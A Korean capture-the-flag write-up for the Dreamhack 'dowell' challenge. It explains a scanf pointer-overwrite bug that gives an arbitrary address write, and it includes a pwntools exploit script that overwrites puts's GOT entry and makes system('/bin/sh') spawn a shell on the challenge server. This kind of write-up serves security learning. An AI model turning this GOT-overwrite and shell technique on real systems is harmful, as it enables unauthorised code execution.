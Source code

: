 dreamhack dowell
============

## 코드 분석

<img width="656" height="381" alt="image" src="https://github.com/user-attachments/assets/0af47fa5-ab59-41ab-ae2b-6c034451db20" />


* 첫 번째 scanf: 정수형 입력 (%d)을 s[0]의 주소에 저장. s[0]은 char * 타입이므로 여기에 정수 값을 저장하면 포인터 값이 덮어씌워짐
* 두 번째 scanf: 문자열 입력 (%s)을 s[0]이 가리키는 주소에 저장. s[0]은 앞서 사용자 입력으로 덮어씌워진 값

## 익스플로잇

### 익스플로잇 분석: AAW(임의 주소 쓰기)


1.  **첫 번째 `__isoc99_scanf("%d", s);`:**

      * `s`는 `char *s[2]`로, `s[0]`과 `s[1]`을 포함하는 배열이다.
      * `s`의 주소는 사실상 `&s[0]`과 같다.
      * `%d` 형식 지정자는 정수를 입력받는다.
      * 문제는 `s[0]`이 `char *` 타입인데 여기에 `%d`로 정수 값을 입력받으면 `s[0]`이 가리키는 포인터 값이
        **사용자가 입력한 정수 값으로 덮어씌워지게 된다.**

2.  **두 번째 `__isoc99_scanf("%s", s[0]);`:**

      * `%s` 형식 지정자는 문자열을 입력받는다.
      * 여기서 `scanf`는 `s[0]`이 가리키는 주소에 문자열을 쓰려고 시도한다.
      * **앞서 첫 번째 `scanf`에서 `s[0]`의 값은 사용자가 임의로 지정한 주소로 변경되어 있다.**
      * 따라서 두 번째 `scanf`는
        **사용자가 첫 번째 `scanf`를 통해 지정한 임의의 메모리 주소(`s[0]`의 값)에 사용자가
        입력한 문자열을 쓸 수 있게 된다.**


*  **첫 번째 `scanf`로 `s[0]`의 값을 원하는 주소(`target_address`)로 조작한다.**
*  **두 번째 `scanf`로 `s[0]`이 가리키는 `target_address`에 원하는 데이터를 쓴다.**

---------------

일단 코드에서 쉘을 딸 수 있는 가장 유력한 방법은 **system함수의 인자인 st의 값을 조작해서 system("/bin/sh")를 실행** 하는 것이다.  

* st를 단순히 조작하기엔 이미 호출 시점에 system이 호출되고난 후이므로 main을 가지고 조작해야 한다.
* puts의 got 엔트리를 main의 시작 주소로 덮어씌운다면 puts가 호출될 때마다 프로그램 실행 흐름이 main 함수로 되돌아갈 것이다.
* AAW 취약점 (scanf("%d", s); 후 scanf("%s", s[0]);)을 이용하면 puts의 GOT 주소를 s[0]에 설정하고
   이후 main의 주소를 덮어쓸 수 있다.


### 익스플로잇 코드

```python
from pwn import *

p = remote("host1.dreamhack.games", 17420)
e = ELF("./prob")

main = e.symbols['main']
st = 0x0000000000404080
puts_got = e.got['puts']

p.sendlineafter("pt: ", str(int(puts_got)))
p.sendlineafter("input: ", p64(main))

p.sendlineafter("pt: ", str(int(st)))
p.sendlineafter("input: ", b'/bin/sh')

p.interactive()
```

## 실행 결과

<img width="797" height="537" alt="image" src="https://github.com/user-attachments/assets/2957ea7c-6928-4a05-80b2-25908cec767c" />





